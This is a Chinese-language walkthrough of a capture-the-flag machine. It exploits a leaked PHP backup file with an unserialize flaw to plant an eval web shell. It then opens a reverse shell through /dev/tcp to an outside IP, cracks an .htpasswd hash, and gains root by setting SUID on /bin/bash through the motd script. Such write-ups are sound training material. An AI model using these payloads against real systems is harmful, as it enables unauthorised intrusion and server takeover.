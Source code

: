 ![](../../images/e57f3e0151e6e4417dc3fcc1911ee32a.png)

fscan 扫一下，发现开放了 22 端口和 80 端口。

![](../../images/fba768b4898aea8d29d26efd807809d8.png)

![](../../images/40771d383b0a42815be686363fd6ba97.png)

浏览器访问 80 端口，发现什么都没有。

dirsearch 扫一下，发现以下内容。

![](../../images/f457c5eb79b7fa7643658c8fd109b78a.png)

访问 backup，发现泄露了源码。

![](../../images/c7236e533071eeea3ddb6110a98d5335.png)

把 index.php.bak 下载下来，审计一下，发现存在反序列化漏洞。

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>


```

__destruct() 中可以将代码写入文件，可以写一句话木马到 shell.php 中，然后访问即可。

```php
<?php

class FormSubmit {

    public $form_file = 'shell.php';
    public $message = "<?= @eval(\$_POST[a]);?>";

    public function SaveMessage() {

        $NameArea = $_GET['name'];
        $EmailArea = $_GET['email'];
        $TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

    }

    public function __destruct() {

        file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
        echo 'Your submission has been successfully saved!';

    }

}
$p = new FormSubmit();
echo serialize($p);

?>


```

![](../../images/698a9fc001a3222d27445d15ab3c4efd.png)

![](../../images/67f92f7e5e31efa166a1776be2ce34a7.png)

直接反弹 shell。

```http
a=system(bash -c 'system("bash -c '/bin/bash -i >& /dev/tcp/10.11.112.40/8888 0>&1'");');

```

![](../../images/9d423e4e1e0e127cd25199b037cc277e.png)

转为稳定 shell。

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z #(Ctrl+Z)
stty raw -echo && fg
export TERM=xterm
```

![](../../images/e5a4693b8c0b687532b6685c70baa5e8.png)

第一个 flag 应该在用户 james 里面，我们需要想办法变为 james 的身份。

可以在 /var/www/html 目录下发现隐藏的密码文件，即 .htpasswd。

![](../../images/a0893726cb5c8cfafdd87829b5fc8950.png)

![](../../images/75abc568432139d36de9cbc518c06444.png)

直接使用 john 爆破。

![](../../images/1eaad443d6c9d9b9e2e5882c2729e45d.png)

![](../../images/375a7b7432ee67e24974024779bcbe83.png)

拿到 james 的密码后切换为 james 用户，得到 flag1。

继续观察，还有一个 Note-To-James.txt 文件，打开看一下。

![](../../images/599e2a2f265bf6ecdc548a3c8f899534.png)

意思就是我们有修改 ssh 登录时的欢迎消息的权限，我们可以借助它来提权。

路径是 `/etc/update-motd.d/00-header`。

可以直接在里面添加 `chmod +s /bin/bash`，给 /bin/bash SUID，这样我们就有权限去查看 root 文件夹下的内容了。

![](../../images/53842e3c2c6f115eea1ce04ebaafa96f.png)

修改完成后重新 ssh 登录用户 james，提权成功。

![](../../images/5b53ac7403edc5183aaf5981fe9b5f25.png)

![](../../images/2b51eb1b8967d304e12083675a4afc67.png)

flag2 在 root 目录的 root.txt 中。

![](../../images/4ecb2c30514ebd19434d923d1f878e2e.png)



